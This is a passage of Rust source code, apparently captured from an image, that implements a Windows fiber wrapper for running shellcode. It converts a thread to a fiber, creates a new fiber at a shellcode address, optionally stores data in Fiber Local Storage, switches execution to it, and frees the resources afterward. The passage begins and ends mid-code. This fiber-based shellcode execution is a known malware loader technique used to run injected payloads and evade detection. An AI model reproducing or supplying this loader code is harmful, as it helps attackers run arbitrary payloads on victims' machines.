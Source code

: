 ```rust
                mem::transmute(shellcode_addr),
                parameter.unwrap_or(null()),
            );
            
            if shellcode_fiber.is_null() {
                // Convert back to thread to clean up
                ConvertFiberToThread();
                return Err(format!("CreateFiber failed with error: {}", GetLastError()));
            }
            
            Ok(Self {
                shellcode_fiber,
                main_fiber,
                fls_index: None,
            })
        }
        
        // Alternative initialization with Fiber Local Storage for data passing
        pub unsafe fn new_with_fls(shellcode_addr: *mut c_void, data: *mut c_void) -> Result<Self, String> {
            let fiber = Self::new(shellcode_addr, None)?;
            
            // Allocate FLS index
            let fls_index = FlsAlloc(null());
            if fls_index == 0xFFFFFFFF {
                return Err(format!("FlsAlloc failed with error: {}", GetLastError()));
            }
            
            // Store data in FLS
            if FlsSetValue(fls_index, data) == 0 {
                FlsFree(fls_index);
                return Err(format!("FlsSetValue failed with error: {}", GetLastError()));
            }
            
            Ok(Self {
                shellcode_fiber: fiber.shellcode_fiber,
                main_fiber: fiber.main_fiber,
                fls_index: Some(fls_index),
            })
        }
        
        // Execute the fiber
        pub unsafe fn execute(&self) -> Result<(), String> {
            // Switch execution to the shellcode fiber
            SwitchToFiber(self.shellcode_fiber);
            Ok(())
        }
    }
    
    impl Drop for Fiber {
        fn drop(&mut self) {
            unsafe {
                // Clean up FLS if used
                if let Some(index) = self.fls_index {
                    FlsFree(index);
                }
                
                // Delete shellcode fiber
                if !self.shellcode_fiber.is_null() {
                    DeleteFiber(self.shellcode_fiber);
                }
                
                // Convert back to thread
```